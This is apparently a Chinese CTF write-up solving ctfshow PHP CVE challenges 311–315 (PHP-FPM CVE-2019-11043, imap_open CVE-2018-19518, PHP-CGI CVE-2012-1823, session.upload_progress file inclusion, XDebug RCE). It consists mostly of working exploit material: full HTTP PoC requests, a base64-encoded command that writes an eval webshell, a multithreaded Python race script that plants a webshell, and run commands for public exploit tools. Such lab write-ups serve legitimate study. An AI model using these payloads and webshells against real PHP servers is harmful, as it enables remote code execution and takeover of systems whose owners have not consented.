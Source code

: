 ```yaml
---
title: ctfshow-phpcve
id: ctfshow-phpcve
---
```


<!-- more -->

打算把单项都补完，整完这个还差个java--

## 311：CVE-2019-11043

[PHP-fpm 远程代码执行漏洞(CVE-2019-11043)分析 (seebug.org)](https://paper.seebug.org/1063/)

github上存在公开的exp：[neex/phuip-fpizdam: Exploit for CVE-2019-11043 ](https://github.com/neex/phuip-fpizdam)
需要go环境：[Downloads - The Go Programming Language](https://golang.google.cn/dl/)

go环境安装完成后，运行下面语句

```
go get github.com/neex/phuip-fpizdam
```

然后直接用就好：

```
phuip-fpizdam url/index.php
```

![](https://i.loli.net/2021/10/07/R8WXriTC2N7xKFh.png)

然后访问`url/?a=<your command>`执行命令即可（不行就多试几次）

![](https://i.loli.net/2021/10/07/XM6T2FfbP3kdABD.png)



## 312：CVE-2018-19518

[CVE-2018-19518：PHP imap_open函数任意命令执行漏洞复现 - FreeBuf](https://www.freebuf.com/vuls/192712.html)

bp发送如下数据包即可成功执行命令：
`echo '<?php eval($_POST[1]);' > /var/www/html/a.php`

poc：

```http
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycgPiAvdmFyL3d3dy9odG1sL2EucGhw|base64%09-d|sh}a&username=222&password=333
```

记得改Host
中间base64的部分就是要执行的命令，这里我是写了一个马到a.php里

![](https://i.loli.net/2021/10/07/eZDUJH1M2mQq7kt.png)

执行命令

![](https://i.loli.net/2021/10/07/vAXpzr89GOBe6VF.png)



## 313：CVE-2012-1823

[PHP-CGI远程代码执行漏洞（CVE-2012-1823）分析 (seebug.org)](https://paper.seebug.org/297/)

> 漏洞利用：
>
>  `-s`直接显示源码
>
> `-d`指定`auto_prepend_file`来制造任意文件包含漏洞

访问：

```
index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input
```

抓包post:

```
<?php echo shell_exec('ls');?>
```

或者直接用poc也行：（记得改Host）

```html
POST /index.php?-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input HTTP/1.1
Host: example.com
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

<?php echo shell_exec("id"); ?>
```

![](https://i.loli.net/2021/10/07/7IQNtoFKYGSXevW.png)



## 314：session_upload+文件包含

> hint：严格说算不上cve

[利用session.upload_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/202819.html)

```php
<?php

error_reporting(0);

highlight_file(__FILE__);

//phpinfo
$file = $_GET['f'];

if(!preg_match('/\:/',$file)){
    include($file);
}
```

接触很多次了，直接放脚本（写了个马在a.php）

```python
import requests
import io
import threading

url = "http://fe15f2b4-caa8-4685-8872-33b3e7ebef0b.challenge.ctf.show:8080/"

sessionid = "na0h"

def write(session):
    filebytes = io.BytesIO(b'a' * 1024 * 50)
    while True:
        resp = session.post(url,
                            data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST[1]);?>'},
                            files={'file': ('na0h.png', filebytes)},
                            cookies={'PHPSESSID': sessionid})
        print("[*]writing...")


def read(session):
    while True:
        resp = session.post(url+'?f=/tmp/sess_'+sessionid,
                            data={'1': '''file_put_contents('a.php','<?php eval($_POST[1]);?>');'''},
                            cookies={'PHPSESSID': sessionid})
        if 'na0h.png' or 'offset: 1' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[*]status:"+str(resp.status_code))

if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        for i in range(5):
            threading.Thread(target=write, args=(session,)).start()
        for i in range(5):
            threading.Thread(target=read, args=(session,)).start()
    event.set()
```

![](https://i.loli.net/2021/10/07/Iqo6H8SGPTCl1gF.png)



## 315：XDebug 远程调试漏洞

> hint：debug开启，端口9000

如题：[XDebug 远程调试漏洞 (代码执行)「Vulhub 文档」](https://www.wangan.com/docs/399)

exp：[vulhub/php/xdebug-rce (github.com)](https://github.com/vulhub/vulhub/tree/master/php/xdebug-rce)

把[exp](https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py)拷下来，跑一下：

> **重要说明：因为该通信是一个反向连接的过程，exp.py启动后其实是会监听本地的9000端口（可通过-l参数指定）并等待XDebug前来连接，所以执行该脚本的服务器必须有外网IP（或者与目标服务器处于同一内网）。**

```
# 要求用python3并安装requests库(得有公网服务器)
python3 exp.py -t url/index.php -c 'shell_exec('id');'
```

云服务器记得去改安全组，把9000端口开了即可

![](https://i.loli.net/2021/10/07/C2GHc86WsEkLSU5.png)